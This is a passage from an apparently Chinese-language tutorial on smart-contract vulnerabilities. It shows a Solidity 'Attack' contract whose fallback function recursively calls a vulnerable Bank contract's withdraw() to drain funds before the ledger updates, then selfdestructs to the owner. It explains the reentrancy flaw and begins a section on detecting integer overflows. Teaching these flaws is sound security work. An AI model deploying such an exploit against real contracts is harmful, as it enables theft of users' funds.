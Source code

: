 ```
    `}`
`}`

contract Attack `{`
    address owner;
    address victim;
    constructor() public payable `{` 
        owner = msg.sender;
    `}`
    function setVictim(address target) public`{`
        victim = target;
    `}`
    function step1(uint256 amount) public  payable`{`
        if (address(this).balance &gt; amount) `{`
            victim.call.value(amount)(bytes4(keccak256("deposit()")));
        `}`
    `}`
    function step2(uint256 amount) public`{`
        victim.call(bytes4(keccak256("withdraw(address,uint256)")), this,amount);
    `}`
    // selfdestruct, send all balance to owner
    function stopAttack() public`{`
        selfdestruct(owner);
    `}`
    function startAttack(uint256 amount) public`{`
        step1(amount);
        step2(amount / 2);
    `}`
    function () public payable `{`
        if (msg.sender == victim) `{`
            // 再次尝试调用Bank合约的withdraw函数，递归转币
            victim.call(bytes4(keccak256("withdraw(address,uint256)")), this,msg.value);
        `}`
    `}`
`}`
```

在上面的代码中，智能合约Bank是存在重入漏洞的合约，其内部的withdraw()方法使用了call方法进行转账，使用该方法转账时没有gas限制。 智能合约Attack是个恶意合约，用来对存在重入的智能合约Bank进行攻击。攻击流程如下： * Attack先给Bank转币 * Bank在其内部的账本balances中记录Attack转币的信息 * Attack要求Bank退币 * Bank先退币再修改账本balances

问题就出在Bank是先退币再去修改账本balances。因为Bank退币的时候，会触发Attack的fallback函数，而Attack的fallback函数中会再次执行退币操作，如此递归下去，Bank没有机会进行修改账本的操作，最后导致Attack会多次收到退币。

### <a name="%E6%BC%8F%E6%B4%9E%E7%9A%84%E6%A3%80%E6%B5%8B%E6%96%B9%E6%B3%95"></a>5.2 漏洞的检测方法

<a name="%E6%95%B4%E6%95%B0%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E7%9A%84%E6%A3%80%E6%B5%8B"></a>5.2.1 **整数溢出漏洞的检测**

通过约束求解可以很容易的发现智能合约中的整数溢出漏洞，下面我们就通过一个具体的例子一步步的分析。
